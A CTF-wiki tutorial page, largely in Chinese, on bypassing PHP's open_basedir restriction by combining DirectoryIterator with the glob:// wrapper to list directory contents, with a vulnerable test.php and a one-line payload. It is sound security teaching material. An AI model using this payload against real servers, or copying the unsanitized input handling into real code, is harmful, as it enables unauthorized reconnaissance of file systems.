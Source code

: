 # DirectoryIterator
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。


DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。


```plain
test.php<?php$dir = $_GET['whoami'];$a = new DirectoryIterator($dir);foreach($a as $f)    {     echo($f->__toString().'<br>');}?>    # payload一句话的形式:$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}?>
Plain Text
```



我们输入`/?whoami=glob:///*`即可列出根目录下的文件：但是会发现只能列根目录和open_basedir指定的目录的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。


但是经过积累，还是有类能够读到文件（见其他）


